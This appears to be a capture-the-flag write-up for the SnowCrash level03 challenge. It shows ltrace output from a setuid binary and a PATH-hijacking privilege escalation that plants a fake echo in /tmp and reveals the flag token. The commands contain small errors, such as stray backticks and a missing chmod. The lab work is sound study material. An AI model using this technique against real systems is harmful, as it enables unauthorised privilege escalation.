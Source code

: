 There's a suid binary (level03) in the home folder
Running file Command on level03 file gives "setuid setgid ELF 32-bit LSB executable"

after executing ltrace to the binary

```
level03@SnowCrash:~$ ltrace ./level03

__libc_start_main(0x80484a4, 1, 0xbffff7b4, 0x8048510, 0x8048580 <unfinished ...>
getegid()                                        = 2003
geteuid()                                        = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
# system("/usr/bin/env echo Exploit me"Exploit me
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                           = 0
+++ exited (status 0) +++

level03@SnowCrash:~$
```

It shows that the binary execute the command /usr/bin/env echo Exploit me

The echo call is done with relative path this means we can create our echo
and inject it's path into PATH enviroment variable

```
level03@SnowCrash:~$ echo "/bin/getflag" > /tmp/echo
level03@SnowCrash:~$ PATH=/tmp:$PATH`
level03@SnowCrash:~$ ./level03`

Check flag.Here is your token : qi0maab88jeaj46qoumi7maus

level03@SnowCrash:~$
```